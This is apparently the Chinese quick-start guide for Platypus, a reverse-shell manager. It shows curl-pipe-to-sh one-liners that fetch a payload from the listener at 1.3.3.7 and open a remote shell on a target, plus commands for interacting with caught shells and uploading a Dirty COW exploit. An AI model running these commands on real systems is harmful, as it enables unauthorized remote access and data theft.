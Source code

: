 # 快速上手

!!! Tips
    您可以在[**这里**](https://github.com/WangYihang/Platypus/releases)下载到最新的 Release 版，
    您也可以参考[**这里**](/内部机制/build/)直接从源码编译得到 Platypus 的可执行文件。

## 运行

!!! Hint
    这里假设 Platypus 运行在具有公网 IP 的服务器上，其 IP 为 1.3.3.7。

### Linux

```
./platypus_linux_amd64
```
### Windows

```
.\platypus_windows_amd64.exe
```

启动时 Platypus 将会进行一些初始化工作，并开始监听反向 Shell 端口，一切准备就绪之后，Platypus 将会以命令提示符 `» ` 来提示用户可以开始输入命令与之交互。

!!! Tips
    如果您对 Platypus 的具体启动流程感兴趣，可以参考[本文](/内部机制/startup/)。

## 反弹一个反向 Shell

受到 [lukechilds](https://github.com/lukechilds) 的 [reverse-shell](https://github.com/lukechilds/reverse-shell) 项目的启发，Platypus 支持 Reverse Shell as a Serivce (RaaS)，基本语法与其相同。在 RicterZ 的[推荐](https://github.com/WangYihang/Platypus/issues/30)下，增加了一些不同语言的反向 Shell 的 Payload。

您可以直接在目标机器上执行如下命令得到一个反向 Shell，从此不用再记忆各种繁琐的反向 Shell 命令。
如果您希望了解更加高级的 RaaS 的用法，请参考[本文](/使用/基本功能/raas/)。

```bash
curl http://1.3.3.7:13338 | sh
```

### 反弹 Shell 至当前 Platypus（`1.3.3.7:13338`）

```bash
curl http://1.3.3.7:13338 | sh
curl http://1.3.3.7:13338/python | sh
```

### 反弹 Shell 至其他平台（`2.3.3.7:4444`）

```bash
curl http://1.3.3.7:13338/2.3.3.7/4444 | sh
curl http://1.3.3.7:13338/2.3.3.7/4444/ruby | sh
```

反弹成功之后，Platypus 会对新上线的 Shell 进行基础的信息搜集（如：操作系统，用户名等），
当信息搜集结束后，即可利用 Platypus 与之进行交互。

## 与 Platypus 交互

!!! Hint
    Platypus 提供 3 种与之交互的方式。

    * [命令行](/使用/交互方式/cli/)
    * [Web 界面](/使用/交互方式/web/)
    * [Python SDK](/使用/交互方式/sdk/)

这里只介绍最基础的**命令行**模式的一些命令。

!!! Hint
    Platypus 对命令的大小写不敏感并且支持 Tab 自动对命令进行补全，您可以输入命令前缀然后按下 ++tab++ 键即可自动补全。

Platypus 的命令行模式支持 `Help`、`List`、`Jump`、`Download`、`Upload` 以及 `Interact` 等命令。

### Help

打印命令的帮助信息。

#### 列出所有受支持的命令

```bash
» Help
```

#### 列出 List 命令的帮助信息

```bash
» Help List
```

### List

列出当前正在监听的服务器以及每一个服务器上存活的 Shell。

```bash
» List
2021/08/11 22:46:10 Listing 2 listening servers
2021/08/11 22:46:10 [9442daedd052d7cdfebc43092a4a3050] is listening on 0.0.0.0:13337, 0 clients
2021/08/11 22:46:10 [1b7fb280df68ceebae36060c938a2ced] is listening on 0.0.0.0:13338, 0 clients
```

### Jump

!!! Tips
    Platypus 会根据配置文件中的[哈希计算模式](/内部机制/hashing/)对每一个上线的 Shell 计算哈希，该哈希会作为该 Shell 的唯一标识。

跳转到某一个 Shell 对其进行操作。

例如：

```
» Jump 1b7fb280df68ceebae36060c938a2ced
```

跳转成功后，终端的命令提示符将会修改为当前 Shell 的相关信息。
后续的命令（如：`Interact`）将会直接对当前的 Shell 进行操作。

### Interact

当跳转到某一个 Shell 之后，与之进行交互。

!!! Warning
    * 如果您直接执行 Interact 命令得到的 Shell 将会与 netcat 类似，并非纯交互式 Shell。
    * 如果您想要退出当前正在交互的 Shell，可以直接输入 `exit` 即可返回。
    * 如果您希望得到一个**像 SSH 一样好用丝滑的 Shell** 请参考[本文](/使用/基本功能/interact/)。

### Upload / Download

当跳转到某一个 Shell 之后，上传或下载文件。

!!! Hints
    目前 Platypus 只支持在 Cli 模式下进行文件上传下载操作

#### 上传文件

将 Platypus 当前文件夹下的 `dirtyc0w.c` 上传至当前交互主机的 `/tmp/dirtyc0w.c`。
```bash
» Upload ./dirtyc0w.c /tmp/dirtyc0w.c
```

#### 下载文件

将当前交互主机的 `/tmp/www.tar.gz` 下载至 Platypus 当前文件夹下的 `www.tar.gz` 中。

```bash
» Download /tmp/www.tar.gz ./www.tar.gz
```
